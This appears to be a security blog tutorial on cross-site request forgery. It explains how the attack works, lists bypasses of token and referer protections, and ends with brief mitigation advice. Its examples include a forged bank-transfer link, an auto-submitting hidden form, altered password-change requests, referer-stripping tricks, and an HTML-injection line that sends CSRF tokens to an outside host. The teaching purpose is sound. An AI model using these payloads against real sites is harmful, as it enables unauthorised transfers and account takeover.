 ```yaml
---
layout: post
title:  "CSRF Attacks - How to Find, Exploit and fix them"
author: snapsec
categories: [ cybersecurity,csrf,web-attacks ]
image: assets/images/csrf-101.png
---
```




Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application. 

### CSRF flaw and its exploitation

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim’s behalf (though note that this is not true of login CSRF, a special form of the attack let me describe it ). For most sites, browser requests automatically include any credentials associated with the site, such as the user’s session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim. CSRF attacks target functionality that causes a state change on the server, such as changing the victim’s email address or password, or purchasing something. 


### CSRF Attack Example:

Before executing an assault, a perpetrator typically studies an application in order to make a forged request appear as legitimate as possible. 
For example, a typical GET request for a $100 bank transfer might look like:
```
GET http://netbank.com/transfer.do?acct=PersonB&amount=$100 HTTP/1.1
```
An attacker can modify this script so it results in a $100 transfer to their own account. Now the malicious link look like:
```
GET http://netbank.com/transfer.do?acct=AttackerA&amount=$100 HTTP/1.1
```
A bad actor can embed the request into an innocent looking hyperlink:
```
<a href="http://netbank.com/transfer.do?acct=AttackerA&amount=$100">Read more!</a>
```
Next the attacker can distribute the hyperlink via email to a large number of bank customers. Those who click on the link while logged into their bank account will unintentionally initiate the $100 transfer.
 Note that if the bank’s website is only using POST requests, it’s impossible to frame malicious requests using a  href tag. However, the attack could be delivered in a form tag with automatic execution of the embedded JavaScript. 
 his is how such a form may look like:
 ```
  <body onload="document.forms[0].submit()">
   <form action="http://netbank.com/transfer.do" method="POST">
     <input type="hidden" name="acct" value="AttackerA"/>
     <input type="hidden" name="amount" value="$100"/>
     <input type="submit" value="View my pictures!"/>
   </form>
 </body>
 ```

##  Bypasses for CSRF attack:

#### Change the request method

Another thing worth trying is changing the request method of the request. If the sensitive request that you would like to forge is sent via the POST method, try converting the request to a GET request. And if the action is done via a GET, try converting it into a POST. The application might still execute the action and the same protection mechanism is often not in place.
For example, this request:
```
POST /change_password
POST body:
new_password=qwerty
```
Can be rewritten as:
```
GET /change_password?new_password=qwerty
```
#### CSRF Protection via Tokens

Just because a site is using CSRF tokens does not mean that it is validating them properly. Here are a few things that you can try to bypass CSRF protection via tokens.

#### Delete the token param or send a blank token

Not sending a token works fairly often because of this common application logic mistake: applications sometimes only check the validity of the token if the token exists, or if the token parameter is not blank. In this case, sending a request without the token, or a blank value as the token may be all you need to bypass the protection.
For example, if a legitimate request looks like this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```

Try this:

```http
POST /change_password
POST body:
new_password=qwerty
```

Or, this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=
```


#### Use another session’s CSRF token

The application might only be checking if the token is _valid_ or not, and not checking if it _belongs to the current user_. If that’s the case, you can simply hard code your own CSRF token into the payload. Let’s say the victim’s token is _871caef0757a4ac9691aceb9aad8b65b_, and yours is YOUR_TOKEN. You can obtain your own CSRF token easily but not the victim’s token. Try to bypass the CSRF protection by providing your own token in the place of the legitimate token.
In other words, instead of sending this:

```http
POST /change_password
POST body:
new_password=qwerty &csrf_tok=871caef0757a4ac9691aceb9aad8b65b
```


Send this:
```
POST /change_password
POST body:
new_password=qwerty &csrf_tok=YOUR_TOKEN
```


## Referer Based CSRF Checks
Let’s say that _attacker.com_ is a domain that you own. And _bank.com_ is the site that you are attacking. The site is not using CSRF tokens but is checking the referer header instead. What can you do now?

- Sending a blank tokens is one of the first things that you should do, sometimes all you need to do to bypass a referer check is to simply not send a referer. To do this, you can add the following meta tag to the page hosting your payload:
```
<meta name=”referrer” content=”no-referrer”>
```
The application might only be validating the referer if one is sent, in that case, you’ve successfully bypassed its CSRF protection!




#### Bypass the regex
If the referer check is based on a whitelist, you can try bypassing the regex used to validate the URL. For example, you can try placing victim domain name in referer URL as a subdomain or as a directory:
If the site is looking for “_bank.com”_ in the referer URL, maybe “_bank.com.attacker.com”_ or “_attacker.com/bank.com”_ will work.


#### Extracting token via HTML injection

This technique utilizes HTML injection vulnerability using which an attacker can plant a logger to extract the CSRF token from that web page and use that token. An attacker can plant a link such as
```
<form action=”http://shahmeeramir.com/acquire_token.php”></textarea>
```
#### Decoding CSRF tokens:

Another method to bypass CSRF is to identify the algorithm of the CSRF token. In my experience CSRF tokens are either MD5 or Base64 encoded values. You can decode that value and encode the next one in that algorithm and use that token. For instance “a0a080f42e6f13b3a2df133f073095dd” is MD5(122). You can similarly encrypt the next value MD5(123) to for CSRF token bypass.


### Mitigation of CSRF attack

A number of effective methods exist for both prevention and mitigation of CSRF attacks. From a user’s perspective, prevention is a matter of safeguarding login credentials and denying unauthorised actors access to applications. The most robust way to defend against CSRF attacks is to include a CSRF token within relevant requests. The token should be:
-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.


## Conclusion:

CSRF is a vulnerability that allows attackers to circumvent the SOP (same origin policy) which leas to various unintended actions on victims account.

There are various bypasses to bypass the csrf protection implemented by the web applications as below:

- Sending only csrf token  header with empty token.

- Use csrf token generated in another session.

- Try submitting same length randomly generated csrf token to check if it validation is only based on token length.
